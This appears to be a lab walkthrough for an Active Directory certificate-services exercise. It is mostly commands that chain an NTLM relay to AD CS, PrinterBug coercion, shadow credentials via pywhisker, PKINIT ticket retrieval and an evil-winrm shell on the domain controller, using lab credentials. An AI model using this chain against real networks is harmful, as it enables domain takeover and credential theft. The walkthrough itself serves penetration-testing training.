


## What are the contents of flag.txt on jpinkman's desktop?

```
impacket-ntlmrelayx -t http://10.129.234.172/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication

bloodhound-python -u wwhite -p package5shores_topher1 -ns 10.129.234.174 -d inlanefreight.local -c All

python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.2.135 10.10.14.7


pywhisker --dc-ip 10.129.2.133 -d INLANEFREIGHT.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add

```

```
python3 PKINITtools/gettgtpkinit.py -cert-pfx ySPQm8u9.pfx -pfx-pas 'G7pkf1WnUvdsbv13v9jt' -dc-ip 10.129.2.133 INLANEFREIGHT.LOCAL/jpinkman jpinkman.ccache
```

```
export KRB5CCNAME=jpinkman.ccache
klist
```

```
sudo nano /etc/hosts
10.129.2.135   dc01.inlanefreight.local dc01 INLANEFREIGHT.LOCAL

evil-winrm -i dc01.inlanefreight.local -r INLANEFREIGHT.LOCAL
```

## What are the contents of flag.txt on Administrator's desktop?

